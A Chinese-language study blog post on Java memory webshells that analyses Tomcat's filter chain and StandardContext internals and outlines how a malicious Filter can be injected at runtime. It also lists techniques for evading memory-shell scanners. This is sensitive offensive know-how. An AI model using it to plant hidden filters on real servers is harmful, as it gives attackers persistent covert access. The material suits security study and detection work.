# 01 扯点没用的

前面学了一阵子Java，但始终没有接触到Javasec里面一个很核心的内容——内存马，如果要给Webshell分个等级的话，JavaWeb内存马一定是最值得深究且作用最广泛的。

其实本应该在上上个周就开始学习这部分的内容的，但是一直断断续续的有惰性加上周末打了一个比赛，后面在跟bao师傅唠嗑的时候聊到了后面就业方向的问题，毋庸置疑的是，Java仍然是现阶段国内最热门的语言，Java的代码审计也是我认为相对来说可见性比较高的方向。后面我想着需要练习一下代码审计的能力，就想着先去审一下框架源码，但是头几天没找到一个可行的方向，现在索性就先学Java内存马，然后再从里面挖掘源码一步步来了

# 02 关于内存马

su18师傅对java内存马的认知文章写的特别好：https://nosec.org/home/detail/5049.html

## 什么是内存马？

其实内存马的话之前在学python内存马的时候也了解过不少了，但这里还是想扯皮一下

在传统的Webshell的使用与不断迭代的防御机制的斗争中，无论我们如何花费心思去隐藏，如何变幻，都无法在目标系统长时间的保留。

目前主流的防御措施针对 Webshell 的静态检出率在 90% 以上，在部分环境下甚至完全无法落地，防御方可以做到快速应急响应。正因为这些限制，内存马技术得以诞生并快速发展，无文件攻击、内存 Webshell、进程注入等基于内存的攻击手段也受到了越来越多的师傅青睐，那什么是内存马呢？

内存马（Memory Shellcode）是一种恶意攻击技术，旨在通过利用程序或操作系统的漏洞，将恶意代码注入到系统内存中运行。与传统的攻击方式不同，内存马不需要将恶意代码写入磁盘上的文件，而是直接在运行时内存中进行操作，从而避开传统的安全防护措施。

## 内存马的分类

根据内存马的实现技术，`su18`师傅对内存马进行了大致的分类



其实大致的话是可以分为以下几大类：

- 传统`web`型内存马：使用基本 Servlet-API 实现的动态注册内存马（Filter、servlet、Listener动态注册）
- Spring框架型内存马
- 中间件型内存马
- 其他内存马（Websocket/Tomcat Jsp/线程型/RMI）
- Agent型内存马

## 内存马的用处

内存马的用因主要在于以下几个方面

- **由于网络原因不能反弹 shell 的；**
- **内部主机通过反向代理暴露 Web 端口的；**
- **服务器上有防篡改、目录监控等防御措施，禁止文件写入的；**
- **服务器上有其他监控手段，写马后会告警监控，人工响应的；**
- **服务使用 Springboot 等框架，无法解析传统 Webshell 的；**

但是内存马的使用是转瞬即逝的，也就是说，只要服务重启后就会失效，不过通常情况下服务频繁重启的可能性是不大的，再加上内存马的隐蔽性，使得内存马依旧成为攻击者首选的Webshell维持方式

关于内存马的注入方式，会在后面的内容中逐一添加，并且会在最后的时候进行一定的自我总结

## 内存马的你来我往

内存马的概念已经火了几年，对于内存马的攻防自然也进行了多次的交锋。

- 首先看一下防御手段的迭代：

> LandGrey 于 2020 年发布了 copagent 项目，基于 Java Agent 技术查找关键类的子类、关键注解类，并通过恶意包名标识类，随后将这些类 dump 出来并匹配其中的风险关键字。

> c0ny1 也发布了 java-memshell-scanner 项目，基于 Tomcat API 查找关键位置中的信息（Servlet/Filter），通过 ClassLoader 判断是否在磁盘上、类名（包名）等信息进行内存马的检出，还支持将 Class 从内存中 dump 出来进行人工分析。

> potats0 通过 sa-jdi.jar  解决了无法获取到使用 redefineClasses 的类处理的类字节码。

> 还有师傅提出了基于 mbean 的 filter/servlet 风险类识别维度进行内存马的查找。

> 这些防御手段通过在目标系统中定位关键类，并多维度识别风险的方式进行内存马的检出。

- 再来看一下绕过检测的手段：

> 冰蝎通过删除 /tmp/.java_pid+{pid} 文件来阻止 JVM 进程通信，从而禁止查杀 Agent 加载。

> ZhouYu 通过阻止后续的 ClassFileTransformer 加载的方式阻止其他 Java Agent 加载来防止检测和查杀。

> Glassy 师傅分享通过 Bootstrap ClassLoader 加载恶意类来绕过对内存马的检测。

> 冰蝎及哥斯拉作者还针对 Agent Self Attach 以及无文件落地注入 Agent 内存马进行了技术上的突破，可以无文件落地注入 agent 内存马。

绕过手段基于对检测方式的透明，对其关键逻辑进行绕过，使检测手段失效。

相关的手段和思路还有很多，这里不再一一列举，除了对内存马针对性的查杀，内存马还面临常规防御的问题，例如，内存马功能交互在流量层的特征防御；内存马执行恶意操作在主机层面或代码层面的防御等等。WAF 也好，RASP 也好，EDR 、HIDS 也好，诸多的防御措施都成为实战中植入内存马的拦路虎。

除了开源项目，各大安全厂商也发布了对内存马的检出和查杀项目，在实战中还需要针对它们进行绕过。

但是可以肯定的是，无论是什么样的防守技术，在越来越偏向底层的内存攻防、越来越动态的攻击手法中，都会捉襟见肘。正所谓，道高一尺，魔高一丈。

简单的介绍完了，就开始正式学习吧

# 03 前置知识

环境：jdk1.8.0_321 + Tomcat9.0.108

tomcat下载链接：https://dlcdn.apache.org/tomcat/tomcat-9/v9.0.108/bin/apache-tomcat-9.0.108-windows-x64.zip

下载后在/bin目录下找到startup.bat运行然后访问8080端口就可以了



## 什么是Servlet容器？

翻到一个对Tomcat中Servlet容器解释比较好的文章：https://juejin.cn/post/6994810991997354014

`Servlet容器`即实现了Servlet 规范的Web应用服务器，负责管理Servlet的生命周期、URL访问请求和`Servlet`映射、`Servlet`注册/卸载等。

自`Java EE 8`开始`Java EE`已更名为Jakarta EE，所有的`Servlet容器`都必须实现该规范。常见的`Servlet容器`如下：

1. `Tomcat`/`TomEE`
2. `Jetty`
3. `Glassfish Server`
4. `Jboss`/`Undertow`/`WildFly`
5. `Resin`
6. `Weblogic Server`
7. `WebSphere Application Server`/`Liberty`
8. `TongWeb`(东方通)
9. `Apusic`(金蝶)
10. `BES Application Server`(宝兰德)
11. `InforSuite Application Server`(中创)
12. `Primeton AppServer`(普元)

## Servlet API 提供的动态注册机制

2013年国际大站 p2j 就发布了这种特性的一种使用方法



Servlet、Listener、Filter都是由`javax.servlet.ServletContext` 去加载，无论是使用 xml 配置文件还是使用 Annotation 注解配置，均由 Web 容器进行初始化，读取其中的配置属性，然后向容器中进行注册。

而Servlet 3.0 API 允许使 ServletContext 用动态进行注册，在 Web 容器初始化的时候（即建立ServletContext 对象的时候）进行动态注册。可以看到 ServletContext 提供了 add/create 方法来实现动态注册的功能。



在不同的容器中，实现有所不同，我们这里仅仅以Tomcat为例去进行调试分析和Memshell编写

## 什么是Tomcat？

Tomcat是一种Web应用服务器，同时也是Servlet容器，简单来说Tomcat就是servlet的运行环境，servlet必须运行在像Tomcat这种servlet容器上

Tomcat 设计了 4 种容器，分别是 Engine、Host、Context 和 Wrapper。文章的师傅对这四个容器的概念进行了一个图形化的解释



这 4 种容器不是相互独立的关系，而是父子关系，逐层包含。也正是因为这种分层架构设计，使得Servlet容器具有良好的兼容性和灵活性

一个Service最多只能有一个Engine，Engine表示引擎，用来管理多个虚拟主机的。Host代表就是一个虚拟主机，可以给Tomcat配置多个虚拟主机，一个虚拟主机下面可以部署多个Web应用。一个Context就表示一个Web应用，Web应用中会有多个Servlet，Wrapper就表示一个Servlet。

在Tomcat的server.xml配置文件中，就体现了这样的设计

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- 简化版 Tomcat server.xml 核心配置 -->

<Server port="8005" shutdown="SHUTDOWN">
    
  <!-- 顶层组件，可以包含一个Engine，多个连接器 -->
  <Service name="Catalina">

    <!-- HTTP 连接器：接收客户端请求 -->
    <Connector port="8080" protocol="HTTP/1.1"
               connectionTimeout="20000"
               redirectPort="8443"
               maxParameterCount="1000" />

    <!-- 引擎容器：请求分发核心 -->
    <Engine name="Catalina" defaultHost="localhost">

      <!-- Realm：用户认证 -->
      <Realm className="org.apache.catalina.realm.LockOutRealm">
        <Realm className="org.apache.catalina.realm.UserDatabaseRealm"
               resourceName="UserDatabase"/>
      </Realm>

      <!-- Host：虚拟主机 -->
      <Host name="localhost" appBase="webapps"
            unpackWARs="true" autoDeploy="true">

        <!-- 访问日志记录 -->
        <Valve className="org.apache.catalina.valves.AccessLogValve"
               directory="logs"
               prefix="localhost_access_log"
               suffix=".txt"
               pattern="%h %l %u %t &quot;%r&quot; %s %b" />

      </Host>
    </Engine>
  </Service>
</Server>
```

既然Tomcat设计了那么多个容器，在那么多个容器组合使用的时候，设想这样一个场景：我们此时要访问https://manage.xxx.com:8080/user/list，那`tomcat`是怎么确定请求到达的是那个Wrapper容器中的Servlet来处理的？为此`tomcat`设计了`Mapper`，其中保存了**容器组件与访问路径的映射关系**。



当我们发送请求时，一共会经过四个步骤

1. 根据协议和端口号选定`Service`和`Engine`。

   我们知道`Tomcat`的每个连接器都监听不同的端口，比如`Tomcat`默认的`HTTP`连接器监听`8080`端口、默认的`AJP`连接器监听`8009`端口。上面例子中的URL访问的是`8080`端口，因此这个请求会被`HTTP`连接器接收，而一个连接器是属于一个`Service`组件的，这样`Service`组件就确定了。我们还知道一个`Service`组件里除了有多个连接器，还有一个容器组件，具体来说就是一个`Engine`容器，因此`Service`确定了也就意味着`Engine`也确定了。

2. 根据域名选定`Host`。

   `Service`和`Engine`确定后，`Mapper`组件通过`url`中的域名去查找相应的`Host`容器，比如例子中的`url`访问的域名是`manage.xxx.com`，因此`Mapper`会找到`Host1`这个容器。

3. 根据`url`路径找到`Context`组件。

   `Host`确定以后，`Mapper`根据`url`的路径来匹配相应的`Web`应用的路径，比如例子中访问的是`/user`，因此找到了`Context1`这个`Context`容器。

4. 根据`url`路径找到`Wrapper`（`Servlet`）。

   `Context`确定后，`Mapper`再根据`web.xml`中配置的`Servlet`映射路径来找到具体的`Wrapper`和`Servlet`，例如这里的`Wrapper1`的`/list`。

## Tomcat 中的三个 Context

参考的 https://drun1baby.top/2022/08/21/Java%E5%86%85%E5%AD%98%E9%A9%AC%E7%B3%BB%E5%88%97-02-%E5%86%85%E5%AD%98%E9%A9%AC%E4%BB%8B%E7%BB%8D/#0x05-Tomcat-%E4%B8%AD%E7%9A%84%E4%B8%89%E4%B8%AA-Context-%E7%9A%84%E7%90%86%E8%A7%A3 对Servlet-api的内容进行一个深入的了解

context是上下文的意思，这个东西怎么说呢？其实蛮抽象的，在Tomcat中，一个Context就表示一个Web应用，一个Context中会包含很多东西，比如：Servlet，Filter，Listener等等

### ServletContext

`ServletContext` 是 Java 提供的Servlet规范中规定的ServletContext接口，它表示当前 Web 应用在运行时的上下文信息，接口定义了很多方法能对Servlet中的各种资源进行访问、添加、删除等。当然，动态注册的功能也是其中之一

### ApplicationContext

在Tomcat中ApplicationContext是ServletContext接口的规范实现，但因为门面模式的原因，实际套了ApplicationContextFacade。

可以在pom.xml中导入tomcat相关依赖进行查看

```xml	
    <dependencies>
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-core</artifactId>
            <version>9.0.108</version>
            <scope>compile</scope>
        </dependency>
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-jasper</artifactId>
            <version>9.0.108</version>
            <scope>compile</scope>
        </dependency>
```



其中ApplicationContext实现了ServletContext规范定义的一些方法，例如addServlet,addFilter等

### StandardContext

`org.apache.catalina.core.StandardContext`是子容器`Context`的标准实现类，其中包含了对Context子容器中资源的各种操作。

而在ApplicationContext类中，对资源的各种操作实际上是调用了StandardContext中的方法



总结一下：

ServletContext接口的实现类为ApplicationContext类和ApplicationContextFacade类，其中ApplicationContextFacade是对ApplicationContext类的外层包装。我们对Context容器中各种资源进行操作时，最终调用的还是StandardContext中的方法，因此StandardContext是Tomcat中负责与底层交互的Context。

顺便放一下drun1baby师傅的关系图 



# Filter型内存马

## 关于Filter过滤器

Filter顾名思义就是过滤器的意思，这个之前php的时候也接触过不少了

在tomcat中，filter是位于客户端请求和目标资源servlet之间的，可以对请求和响应进行拦截和过滤处理的一种组件容器。一次请求进入到服务器后，将先由 Filter 对用户请求进行预处理，再交给 Servlet。



由图中不难看出，我们的请求在经过servlet之前会经过filter，这个filter可能是一层也可能是多层，但最终都会在servlet对请求进行拦截处理，那么我们可以得出一个思路：

如果我们动态创建一个filter并放在最前面，那么我们的filter就会最先执行，若我们创建的filter中存在恶意代码，那么就可以实现恶意代码执行，形成内存马。

通常情况下，Filter 配置在配置文件和注解中，在其他代码中如果想要完成注册，主要有以下几种方式：

1. 使用 ServletContext 的 addFilter/createFilter 方法注册；
2. 使用 ServletContextListener 的 contextInitialized 方法在服务器启动时注册（将会在 Listener 中进行描述）；
3. 使用 ServletContainerInitializer 的 onStartup 方法在初始化时注册（非动态，后面会描述）

## 04.1 实现Filter的Demo

新建一个maven项目



创建好后目录是这样的



导入servlet-api依赖，修改pom.xml配置如下

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
  <modelVersion>4.0.0</modelVersion>

  <groupId>com.example</groupId>
  <artifactId>Servlet_api_Memshell</artifactId>
  <version>1.0-SNAPSHOT</version>
  <packaging>jar</packaging>

  <name>Servlet_api_Memshell</name>
  <url>http://maven.apache.org</url>

  <properties>
    <maven.compiler.source>8</maven.compiler.source>
    <maven.compiler.target>8</maven.compiler.target>
    <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
  </properties>

  <dependencies>
    <dependency>
      <groupId>junit</groupId>
      <artifactId>junit</artifactId>
      <version>3.8.1</version>
      <scope>test</scope>
    </dependency>
    <dependency>
      <groupId>javax.servlet</groupId>
      <artifactId>javax.servlet-api</artifactId>
      <version>4.0.1</version>
    </dependency>
  </dependencies>
</project>

```

然后我们配置一下tomcat环境，先添加一个Tomcat运行配置



然后点击右下角的修复去添加工件



添加后部署到tomcat服务器中，然后我们设置一下web模块





写一个测试servlet的代码TestServlet.java（留着讲Servlet型内存马时候用）

```java
package com.example.Servlet_Memshell;

import java.io.IOException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@WebServlet("/test")
public class TestServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        resp.getWriter().write("hello world");
    }
}
```

解释一下代码

- `@WebServlet("/test")`  利用注解声明 URL 和 Servlet 的映射关系，相当于在web.xml中注册servlet
- `extends HttpServlet` 继承自 `HttpServlet`，必须重写 `doGet` / `doPost` 等方法才能处理请求。
- `doGet`  当浏览器发起 **GET 请求**（比如直接访问 URL）时，会执行这个方法。
- `HttpServletRequest req`  封装了请求的内容，比如 `req.getParameter("name")` 可以获取 URL 参数。
- `HttpServletResponse resp` 用于向客户端返回数据。
- `resp.getWriter().write("Hello World");`  向响应体里写入 `"Hello World"`。浏览器最终看到的就是这段文本。

配置好后我们运行并访问/ServletMemshell/test



如果不用注解去配置路由映射的话，我们也可以配置一下web.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <servlet>
        <servlet-name>TestServlet</servlet-name>
        <servlet-class>com.example.Servlet_Memshell.TestServlet</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>TestServlet</servlet-name>
        <url-pattern>/test</url-pattern>
    </servlet-mapping>
</web-app>
```

我们先写一个TestFilter

因为Servlet规范里定义了一个Filter接口，如果需要实现一个过滤器的话就需要实现filter接口，我们看看这个接口有哪些函数方法

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package javax.servlet;

import java.io.IOException;

public interface Filter {
    default void init(FilterConfig filterConfig) throws ServletException {
    }

    void doFilter(ServletRequest var1, ServletResponse var2, FilterChain var3) throws IOException, ServletException;

    default void destroy() {
    }
}
```

那根据这个接口的方法去写一下

```java
package com.example.Filter_Memshell;

import javax.servlet.*;
import java.io.IOException;

public class TestFilter implements Filter {

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("TestFilter init");
    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        System.out.println("TestFilter doFilter");
        chain.doFilter(request, response);
    }

    @Override
    public void destroy() {
        System.out.println("TestFilter destroy");
    }
}

```

然后我们配置一下xml

```xml
    <filter>
        <filter-name>TestFilter</filter-name>
        <filter-class>com.example.Filter_Memshell.TestFilter</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>TestFilter</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
```

需要解释一下`/*` 表示匹配所有请求（无论访问哪个路径都会经过 `TestFilter`）。

启动服务器后随便访问一个路由就可以触发成功了



接下来我们分析一下Tomcat中是如何配置Filter和调用Filter的

## 04.2 ServletContext add/create分析

首先我们看到ServletContext 中的createFilter方法



注释里写的挺清楚的，这个方法的作用主要是**实例化一个指定的 Filter 类**，返回一个 Filter 实例，供后续注册到 ServletContext 使用。并且这里也提到了可以调用`addFilter` 将其注册到 ServletContext。

但是这里的话是有前提条件的，我们传入的Filter类必须要有无参构造函数

这个类还约定了一个事情，那就是如果这个 ServletContext 传递给 ServletContextListener 的 ServletContextListener.contextInitialized 方法，该方法既未在 web.xml 或 web-fragment.xml 中声明，也未使用 javax.servlet.annotation.WebListener 进行注释，则会抛出 UnsupportedOperationException 异常，这个约定其实是非常重要的一点。

然后我们看看addFilter方法


ServletContext 中有三个重载方法，分别接收字符串类型的 filter 以及 Filter 对象/className 字符串/Filter 子类的 Class 对象，提供不同场景下添加 filter 的功能，这些方法均返回 `FilterRegistration.Dynamic` 实际上就是 FilterRegistration 对象。

接下来我们详细分析一下

## 04.3Filter源码分析

这里还需要额外导入tomcat-websocket 包

```xml
    <dependency>
      <groupId>org.apache.tomcat.embed</groupId>
      <artifactId>tomcat-embed-core</artifactId>
      <version>9.0.108</version>
      <scope>compile</scope>
    </dependency>
    <dependency>
      <groupId>org.apache.tomcat.embed</groupId>
      <artifactId>tomcat-embed-jasper</artifactId>
      <version>9.0.108</version>
      <scope>compile</scope>
    </dependency>
    <dependency>
        <groupId>org.apache.tomcat</groupId>
        <artifactId>tomcat-websocket</artifactId>
        <version>9.0.108</version>
    </dependency>
```

### 从代码层面看Filter的运行流程

我们在doFilter方法打下断点并启动服务器

跟进org.apache.catalina.core.ApplicationFilterChain#doFilter()方法

```java
    @Override
    public void doFilter(ServletRequest request, ServletResponse response) throws IOException, ServletException {

        if (Globals.IS_SECURITY_ENABLED) {
            final ServletRequest req = request;
            final ServletResponse res = response;
            try {
                java.security.AccessController.doPrivileged((java.security.PrivilegedExceptionAction<Void>) () -> {
                    internalDoFilter(req, res);
                    return null;
                });
            } catch (PrivilegedActionException pe) {
                Exception e = pe.getException();
                if (e instanceof ServletException) {
                    throw (ServletException) e;
                } else if (e instanceof IOException) {
                    throw (IOException) e;
                } else if (e instanceof RuntimeException) {
                    throw (RuntimeException) e;
                } else {
                    throw new ServletException(e.getMessage(), e);
                }
            }
        } else {
            internalDoFilter(request, response);
        }
    }
```

进行了一个`Globals.IS_SECURITY_ENABLED`的判断，也就是全局安全服务是否开启，这里是没有的，所以进入`ApplicationFilterChain` 类的 `internalDoFilter()` 方法

```java
    private void internalDoFilter(ServletRequest request, ServletResponse response)
            throws IOException, ServletException {

        // Call the next filter if there is one
        if (pos < n) {
            ApplicationFilterConfig filterConfig = filters[pos++];
            try {
                Filter filter = filterConfig.getFilter();

                if (request.isAsyncSupported() && !(filterConfig.getFilterDef().getAsyncSupportedBoolean())) {
                    request.setAttribute(Globals.ASYNC_SUPPORTED_ATTR, Boolean.FALSE);
                }
                if (Globals.IS_SECURITY_ENABLED) {
                    final ServletRequest req = request;
                    final ServletResponse res = response;
                    Principal principal = ((HttpServletRequest) req).getUserPrincipal();

                    Object[] args = new Object[] { req, res, this };
                    SecurityUtil.doAsPrivilege("doFilter", filter, classType, args, principal);
                } else {
                    filter.doFilter(request, response, this);
                }
            } catch (IOException | ServletException | RuntimeException e) {
                throw e;
            } catch (Throwable e) {
                e = ExceptionUtils.unwrapInvocationTargetException(e);
                ExceptionUtils.handleThrowable(e);
                throw new ServletException(sm.getString("filterChain.filter"), e);
            }
            return;
        }

        // We fell off the end of the chain -- call the servlet instance
        try {
            if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
                lastServicedRequest.set(request);
                lastServicedResponse.set(response);
            }

            if (request.isAsyncSupported() && !servletSupportsAsync) {
                request.setAttribute(Globals.ASYNC_SUPPORTED_ATTR, Boolean.FALSE);
            }
            // Use potentially wrapped request from this point
            if ((request instanceof HttpServletRequest) && (response instanceof HttpServletResponse) &&
                    Globals.IS_SECURITY_ENABLED) {
                final ServletRequest req = request;
                final ServletResponse res = response;
                Principal principal = ((HttpServletRequest) req).getUserPrincipal();
                Object[] args = new Object[] { req, res };
                SecurityUtil.doAsPrivilege("service", servlet, classTypeUsedInService, args, principal);
            } else {
                servlet.service(request, response);
            }
        } catch (IOException | ServletException | RuntimeException e) {
            throw e;
        } catch (Throwable e) {
            e = ExceptionUtils.unwrapInvocationTargetException(e);
            ExceptionUtils.handleThrowable(e);
            throw new ServletException(sm.getString("filterChain.servlet"), e);
        } finally {
            if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
                lastServicedRequest.set(null);
                lastServicedResponse.set(null);
            }
        }
    }
```

可以看到`filter.doFilter()`这里的filter是从`ApplicationFilterConfig filterConfig = filters[pos++]; Filter filter = filterConfig.getFilter();`filterConfig中获取的，我们看看filters是什么

```java
    private ApplicationFilterConfig[] filters = new ApplicationFilterConfig[0];
```

是一个ApplicationFilterConfig类型的数组，那么应该就是一个filter链的存放了，看看我们这里的filters值是什么



可以看到，0 是我们自己设定的 filter，1 是 tomcat 自带的 filter，而且这里getFilter获取到的是Tomcat自带的filter



进入tomcat的filter的doFilter后，往下走会来到chain.doFilter



这里的话又会回到org.apache.catalina.core.ApplicationFilterChain#doFilter中



这里的话其实就是一个Filter链的循环调用吧，没啥好说的

在获取最后一个filter的时候就会来到一个servlet.service方法



随后service()方法根据请求类型，这里是get类型，分别调用doGet或者doPost方法。

从这里也不难看出，上一个 `Filter.doFilter()` 方法中调用 `FilterChain.doFilter()` 方法将调用下一个 `Filter.doFilter()` 方法；整个Filter链循环调用后最后一个 Filter.doFilter () 方法中调用的 `FilterChain.doFilter()` 方法将调用目标 `Servlet.service()` 方法。
所以只要 Filter 链中任意一个 Filter 没有调用 `FilterChain.doFilter()` 方法，则目标 `Servlet.service()` 方法都不会被执行。

### 从代码层面看Filter的初始化流程

我们看看在doFilter方法之前的函数调用栈

```java
doFilter:15, TestFilter (com.example.Filter_Memshell)
internalDoFilter:168, ApplicationFilterChain (org.apache.catalina.core)
doFilter:144, ApplicationFilterChain (org.apache.catalina.core)
invoke:168, StandardWrapperValve (org.apache.catalina.core)
invoke:90, StandardContextValve (org.apache.catalina.core)
invoke:482, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:130, StandardHostValve (org.apache.catalina.core)
invoke:93, ErrorReportValve (org.apache.catalina.valves)
invoke:656, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:74, StandardEngineValve (org.apache.catalina.core)
service:346, CoyoteAdapter (org.apache.catalina.connector)
service:397, Http11Processor (org.apache.coyote.http11)
process:63, AbstractProcessorLight (org.apache.coyote)
process:935, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1826, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:52, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1189, ThreadPoolExecutor (org.apache.tomcat.util.threads)
run:658, ThreadPoolExecutor$Worker (org.apache.tomcat.util.threads)
run:63, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang)
```

点到StandardWrapperValve#invoke中



可以看到这里有一个filterChain，看看这个filterChain是什么



里面包含了我们刚刚说的filters数组，跟进看看filterChain是怎么来的

```java
 // Create the filter chain for this request
        ApplicationFilterChain filterChain = ApplicationFilterFactory.createFilterChain(request, wrapper, servlet);
```

调用了ApplicationFilterFactory的createFilterChain方法去创建的，跟进看看

```java
    public static ApplicationFilterChain createFilterChain(ServletRequest request, Wrapper wrapper, Servlet servlet) {

        // If there is no servlet to execute, return null
        if (servlet == null) {
            return null;
        }

        // Create and initialize a filter chain object
        ApplicationFilterChain filterChain;
        if (request instanceof Request) {
            Request req = (Request) request;
            if (Globals.IS_SECURITY_ENABLED) {
                // Security: Do not recycle
                filterChain = new ApplicationFilterChain();
            } else {
                filterChain = (ApplicationFilterChain) req.getFilterChain();
                if (filterChain == null) {
                    filterChain = new ApplicationFilterChain();
                    req.setFilterChain(filterChain);
                }
            }
        } else {
            // Request dispatcher in use
            filterChain = new ApplicationFilterChain();
        }

        filterChain.setServlet(servlet);
        filterChain.setServletSupportsAsync(wrapper.isAsyncSupported());

        // Acquire the filter mappings for this Context
        StandardContext context = (StandardContext) wrapper.getParent();
        FilterMap filterMaps[] = context.findFilterMaps();

        // If there are no filter mappings, we are done
        if (filterMaps == null || filterMaps.length == 0) {
            return filterChain;
        }

        // Acquire the information we will need to match filter mappings
        DispatcherType dispatcher = (DispatcherType) request.getAttribute(Globals.DISPATCHER_TYPE_ATTR);

        String requestPath = FilterUtil.getRequestPath(request);

        String servletName = wrapper.getName();

        // Add the relevant path-mapped filters to this filter chain
        for (FilterMap filterMap : filterMaps) {
            if (!matchDispatcher(filterMap, dispatcher)) {
                continue;
            }
            if (!FilterUtil.matchFiltersURL(filterMap, requestPath)) {
                continue;
            }
            ApplicationFilterConfig filterConfig =
                    (ApplicationFilterConfig) context.findFilterConfig(filterMap.getFilterName());
            if (filterConfig == null) {
                log.warn(sm.getString("applicationFilterFactory.noFilterConfig", filterMap.getFilterName()));
                continue;
            }
            filterChain.addFilter(filterConfig);
        }

        // Add filters that match on servlet name second
        for (FilterMap filterMap : filterMaps) {
            if (!matchDispatcher(filterMap, dispatcher)) {
                continue;
            }
            if (!matchFiltersServlet(filterMap, servletName)) {
                continue;
            }
            ApplicationFilterConfig filterConfig =
                    (ApplicationFilterConfig) context.findFilterConfig(filterMap.getFilterName());
            if (filterConfig == null) {
                log.warn(sm.getString("applicationFilterFactory.noFilterConfig", filterMap.getFilterName()));
                continue;
            }
            filterChain.addFilter(filterConfig);
        }

        // Return the completed filter chain
        return filterChain;
    }
```

打个断点重启一下服务器debug一下



首先会尝试从req请求中获取FilterChain，如果没获取到就新建一个ApplicationFilterChain并将filterChain传入req对象中



从上下文context中获取FilterMap数组，判断 FilterMaps 是否为空，若为空则直接返回



随后遍历`StandardContext.filterMaps`得到filter与URL的映射关系并通过`matchDispatcher()`、`matchFilterURL()`方法进行匹配，如果成功匹配就从上下文中获取对应filter的filterConfig对象，如果存在实例对象就addFilter将`filterConfig`添加入`filterChain`对象



最后会返回filterChain并调用doFilter方法

所以这里主要做了这些事情：

- 在 context 中获取 filterMaps，并遍历匹配 url 地址和请求是否匹配；
- 如果匹配则在 context 中根据 filterMaps 中的 filterName 查找对应的 filterConfig；
- 如果获取到 filterConfig，则将其加入到 filterChain 中
- 后续将会循环 filterChain 中的全部 filterConfig，通过 `getFilter` 方法获取 Filter 并执行 Filter 的 `doFilter` 方法。

所以通过上面的分析可以知道，每次请求的FilterChain都是动态匹配获取和生成的，这也给了我们可以动态注册Filter的机会。**如果想要添加一个Filter，需要在StandardContext中filterMaps中添加一个filterMap，并在filterConfigs中添加一个ApplicationFilterConfig，这样就可以实现动态注册Filter了**

## 04.4Filter内存马实现

其实从上面的代码中不难看出在createFilterChain方法中有两个很重要的方法`org.apache.catalina.core.StandardContext#findFilterMaps`和`org.apache.catalina.core.StandardContext#findFilterConfig`，这两个方法是用来获取FilterMap和FilterConfig的

```java
    @Override
    public FilterMap[] findFilterMaps() {
        return filterMaps.asArray();
    }
    public FilterConfig findFilterConfig(String name) {
        synchronized (filterDefs) {
            return filterConfigs.get(name);
        }
    }
```

看到这两个方法的实现，其实就是从StandardContext中提取到对应的属性filtermap和filterconfig

而StandardContext是一个容器类，它负责存储整个 Web 应用程序的数据和对象，并加载了 web.xml 中配置的多个 Servlet、Filter 对象以及它们的映射关系。

其中里面有三个和Filter有关的成员变量

```java
- filterMaps：一个HashMap对象，包含过滤器名字和URL映射
- filterDefs：一个HashMap对象，过滤器名字和过滤器实例的映射
- filterConfigs变量：一个ApplicationFilterConfig对象，里面存放了filterDefs
    
    
private HashMap<String, ApplicationFilterConfig> filterConfigs = new HashMap(); 

private HashMap<String, FilterDef> filterDefs = new HashMap(); 

private final StandardContext.ContextFilterMaps filterMaps = new StandardContext.ContextFilterMaps();
```

然后我们看看ApplicationFilterConfig对象filterConfig里会存什么东西



一个StandardContext，一个filter，一个filterDef

其中filterDef中保存着我们的filterClass类名，filterName过滤器名



那么我们只要往这2个属性里面插入对应的filterMap和filterConfig即可实现动态添加filter的目的

我们找找有没有setter方法，如果有的话就直接调用去设置值就行了

首先我们来看filtermaps，StandardContext提供了对应的添加方法



这里的话直接用addFilterMapBefore就行了，`addFilterMapBefore`则会自动把我们创建的`filterMap`丢到第一位去，无需再手动排序

然后我们来看一下filterconfig怎么添加，在StandardContext中并没有找到filterconfig有关的添加方法，但是从org.apache.catalina.core.StandardContext#filterStart中可以看到filterConfig可以通过filterConfigs.put(name, filterConfig);添加



那也就是说，我们只能通过反射的方法去获取相关属性并添加进去。

根据上面的所有流程，我们得知了我们只需要设置filterMaps、filterConfigs、filterDefs就可以注入恶意的filter

- filterMaps：一个HashMap对象，包含过滤器名字和URL映射
- filterDefs：一个HashMap对象，过滤器名字和过滤器实例的映射
- filterConfigs变量：一个ApplicationFilterConfig对象，里面存放了filterDefs

所以Filter内存马实现的流程就是：

1. 获取StandardContext
2. 继承并编写一个恶意filter
3. 实例化一个FilterDef类，包含filterName，filterClass，filter对象并调用addFilterDef()方法存放到StandardContext.filterDefs中
